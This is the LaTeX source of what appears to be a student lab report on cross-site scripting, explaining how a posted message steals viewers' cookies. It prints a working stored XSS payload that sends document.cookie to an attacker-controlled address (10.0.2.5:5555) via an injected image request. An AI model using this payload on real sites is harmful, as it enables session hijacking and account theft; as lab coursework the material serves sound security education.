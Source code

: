 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{center}\texttt{Hello Folks,\\<script>document.write('<img src=http://10.0.2.5:5555?c='+ escape(document.cookie) + '   >'); </script>\\This script is to test XSS. Thanks.}\end{center}
This script creates image element. The browsers attempts a HTTP GET request to fetch the image. However, the url of the image is the address of our machine that captures a cookie. As parameter to the request we add a cookie encoded in a string.
\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice.png}\\[1cm]

Then on attacker machine we can observe incoming request, therefore we are able to steal a cookie of anyone viewing the message.\\
\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice-cookie-stolen.png}
\end{document}
